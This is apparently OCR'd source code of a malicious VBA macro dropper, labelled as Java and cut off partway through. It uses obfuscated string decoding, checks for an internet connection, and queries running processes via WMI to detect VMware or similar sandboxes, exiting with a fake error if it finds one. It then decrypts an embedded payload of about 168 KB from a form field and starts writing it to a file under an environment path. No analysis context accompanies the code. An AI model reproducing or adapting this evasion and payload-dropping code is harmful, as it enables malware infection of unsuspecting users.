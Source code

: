
```java
Private Declare Function InternetGetConnectedState Lib "wininet.dll" _
(ByRef dwflags As Long, ByVal dwReserved As Long) As Long

Private Declare PtrSafe Function mciSendString Lib "winmm.dll" Alias _
   "mciSendStringA" (ByVal lpstrCommand As String, ByVal _
   lpstrReturnString As Any, ByVal uReturnLength As Long, ByVal _
   hwndCallback As Long) As Long

Private Declare Function GetShortPathName Lib "kernel32" Alias "GetShortPathNameA" _
    (ByVal lpszLongPath As String, ByVal lpszShortPath As String, ByVal lBuffer As Long) As Long

Public Function GetInternetConnectedState() As Boolean
  GetInternetConnectedState = InternetGetConnectedState(0&, 0&)
End Function

Function rigmarole(es As String) As String
    Dim furphy As String
    Dim c As Integer
    Dim s As String
    Dim cc As Integer
    furphy = ""
    For i = 1 To Len(es) Step 4
        c = CDec("&H" & Mid(es, i, 2))
        s = CDec("&H" & Mid(es, i + 2, 2))
        cc = c - s
        furphy = furphy + Chr(cc)
    Next i
    rigmarole = furphy
End Function

Function folderol()
    Dim wabbit() As Byte
    Dim fn As Integer: fn = FreeFile
    Dim onzo() As String
    Dim mf As String
    Dim xertz As Variant
    
    onzo = Split(F.L, ".")
    
    If GetInternetConnectedState = False Then
        MsgBox "Cannot establish Internet connection.", vbCritical, "Error"
        End
    End If

    Set fudgel = GetObject(rigmarole(onzo(7)))
    Set twattling = fudgel.ExecQuery(rigmarole(onzo(8)), , 48)
    For Each p In twattling
        Dim pos As Integer
        pos = InStr(LCase(p.Name), "vmw") + InStr(LCase(p.Name), "vmt") + InStr(LCase(p.Name), rigmarole(onzo(9)))
        If pos > 0 Then
            MsgBox rigmarole(onzo(4)), vbCritical, rigmarole(onzo(6))
            End
        End If
    Next
        
    xertz = Array(&H11, &H22, &H33, &H44, &H55, &H66, &H77, &H88, &H99, &HAA, &HBB, &HCC, &HDD, &HEE)

    wabbit = canoodle(F.T.Text, 0, 168667, xertz)
    mf = Environ(rigmarole(onzo(0))) & rigmarole(onzo(1))
    Open mf For Binary Lock Read Write As #fn
```